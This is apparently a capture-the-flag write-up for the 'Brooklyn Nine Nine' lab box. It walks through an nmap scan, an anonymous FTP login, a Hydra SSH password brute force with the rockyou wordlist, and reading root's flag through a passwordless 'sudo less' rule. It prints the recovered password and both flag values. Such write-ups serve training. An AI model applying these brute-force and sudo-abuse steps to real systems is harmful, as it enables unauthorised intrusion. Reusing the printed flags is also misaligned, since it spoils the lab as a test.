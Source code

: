 # Brooklyn Nine Nine

This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box. If you find more dm me in discord at Fsociety2006.

# User flag

*Hint: AHH Jake!*

We start with a basic nmap scan, which reveals the presence of FTP, SSH and web services on their standard ports.

~~~
PORT      STATE    SERVICE      VERSION
21/tcp    open     ftp          vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.0.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp    open     http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1026/tcp  filtered LSA-or-nterm
2068/tcp  filtered avocentkvm
8443/tcp  filtered https-alt
9040/tcp  filtered tor-trans
9080/tcp  filtered glrpc
10778/tcp filtered unknown
30718/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Let's check what we can get from the FTP service, as anonymous access:

~~~
unknown@kali:/data/tmp$ ftp 10.10.165.124
Connected to 10.10.165.124.
220 (vsFTPd 3.0.3)
Name (10.10.165.124:unknown): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt -
remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine


226 Transfer complete.
119 bytes received in 0.00 secs (922.3090 kB/s)
ftp> exit
221 Goodbye.
~~~

The note to jake seems to confirm that jake's password is weak. Let's try to brute force jake's SSH password:

~~~
unknown@kali:/data/tmp$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.165.124
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-19 15:58:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.165.124:22/
[22][ssh] host: 10.10.165.124   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-19 15:58:38
~~~

Now that we have jake's SSH password, let's connect. Nothing interesting in jake's home:

~~~
jake@brookly_nine_nine:~$ ls -la
total 44
drwxr-xr-x 6 jake jake 4096 May 26 09:01 .
drwxr-xr-x 5 root root 4096 May 18 10:21 ..
-rw------- 1 root root 1349 May 26 09:01 .bash_history
-rw-r--r-- 1 jake jake  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 jake jake 3771 Apr  4  2018 .bashrc
drwx------ 2 jake jake 4096 May 17 21:36 .cache
drwx------ 3 jake jake 4096 May 17 21:36 .gnupg
-rw------- 1 root root   67 May 26 09:01 .lesshst
drwxrwxr-x 3 jake jake 4096 May 26 08:57 .local
-rw-r--r-- 1 jake jake  807 Apr  4  2018 .profile
drwx------ 2 jake jake 4096 May 18 14:29 .ssh
-rw-r--r-- 1 jake jake    0 May 17 21:36 .sudo_as_admin_successful
~~~

But there are 3 users, 1 of which contains the user flag:

~~~
jake@brookly_nine_nine:~$ ls -l /home
total 12
drwxr-xr-x 5 amy  amy  4096 May 18 10:23 amy
drwxr-xr-x 6 holt holt 4096 May 26 09:01 holt
drwxr-xr-x 6 jake jake 4096 May 26 09:01 jake
jake@brookly_nine_nine:~$ ls -la /home/holt
total 48
drwxr-xr-x 6 holt holt 4096 May 26 09:01 .
drwxr-xr-x 5 root root 4096 May 18 10:21 ..
-rw------- 1 holt holt   18 May 26 09:01 .bash_history
-rw-r--r-- 1 holt holt  220 May 17 21:42 .bash_logout
-rw-r--r-- 1 holt holt 3771 May 17 21:42 .bashrc
drwx------ 2 holt holt 4096 May 18 10:24 .cache
drwx------ 3 holt holt 4096 May 18 10:24 .gnupg
drwxrwxr-x 3 holt holt 4096 May 17 21:46 .local
-rw-r--r-- 1 holt holt  807 May 17 21:42 .profile
drwx------ 2 holt holt 4096 May 18 14:45 .ssh
-rw------- 1 root root  110 May 18 17:12 nano.save
-rw-rw-r-- 1 holt holt   33 May 17 21:49 user.txt
jake@brookly_nine_nine:~$ cat /home/holt/user.txt 
ee11cbb19052e40b07aac0ca060c23ee
~~~

Answer: `ee11cbb19052e40b07aac0ca060c23ee`


# Root flag

*Hint: Sudo is a good command*

Let's check jake's privileges:

~~~
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
~~~

Jake can run `less` as root without password. Let's get the root flag:

~~~
$ sudo /usr/bin/less /root/root.txt

-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
/root/root.txt (END)
~~~

Answer: `63a9f0ea7bb98050796b649e85481845`
